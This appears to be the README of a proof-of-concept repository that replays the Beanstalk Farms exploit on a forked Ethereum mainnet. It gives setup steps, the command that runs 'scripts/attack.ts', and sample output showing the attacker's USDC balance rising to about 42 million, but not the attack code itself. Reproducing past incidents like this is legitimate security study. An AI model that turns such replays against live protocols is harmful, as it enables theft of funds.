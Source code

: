 # Beanstalk Farms re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/your-api-key/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
USDC balance of attacker: 0.0
Exploiting...
Exploit complete.
USDC balance of attacker: 42062065.615197
```
This means the attack is complete
> The block height of the fork is 14595905

## Link
* https://rekt.news/beanstalk-rekt/
* https://twitter.com/BlockSecTeam/status/1515732238612430849